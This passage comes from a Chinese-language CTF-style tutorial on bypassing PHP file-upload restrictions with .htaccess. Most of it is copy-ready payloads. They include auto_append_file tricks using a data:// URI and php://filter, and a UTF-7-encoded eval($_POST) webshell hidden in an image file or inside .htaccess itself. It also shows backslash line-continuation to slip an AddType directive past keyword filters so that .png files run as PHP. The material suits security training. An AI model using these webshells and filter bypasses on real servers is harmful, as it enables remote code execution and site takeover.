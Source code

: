 我们直接使用data://协议也是可以的，这样就不需要上传 images.png 了：

```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
```

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146123530-f8c19729-e2bf-4bb3-97c6-da92136c3bd2.png#alt=img)

#### UTF-7 编码格式绕过

这种方法我们在前文中已经涉及到了，比如我们在一个图片中写入 UTF-7 编码格式的 Webshell：

```php
// images.png
+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```

然后我们使用 auto_append_file 将其包含进来并设置编码格式为 UTF-7 就行了：

```php
php_value auto_append_file images.png
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

当然，也可以使用 php://filer 伪协议进行 UTF-7 与 UTF-8 之间的转换，即：

```bash
php_value auto_append_file "php://filter/read=convert.iconv.utf-7.utf-8/resource=images.png"
```

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146124365-90ac0648-7bf1-46a8-8be1-6368b9e75781.png#alt=img)

也可以使用 .htaccess 自身包含来执行 Webshell，这样就不需要再上传一个 images.png 了：

```php
php_value auto_append_file .htaccess
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# +ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```

同理，除了使用 UTF-7 外，UTF-16、UTF-32 都可以使用，方法都是一样的。

### 绕过关键字过滤

绕过对关键字的过滤我们可以使用反斜杠 \ 加换行来实现。比如题目过滤了 type、php 等敏感字符，此时为了利用 .htaccess 解析图片马，我们需要将 .htaccess 写成这样：

```php
AddTy\
pe application/x-httpd-ph\
p .png

# 即: AddType application/x-httpd-php .png
```

### 绕过脏字符

上面的 [XNUCA2019Qualifier]EasyPHP 这道题目已经涉及到了。即有时候，题目会在我们上传或写入的文件中加入一个混乱的字符（脏字符），由于这些字符不是 .htaccess 文件的语法或指令，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的 .htaccess 文件生效，我们要采用 # 对脏字符进行注释，或使用反斜杠 \ 将换行符转义成普通字符。

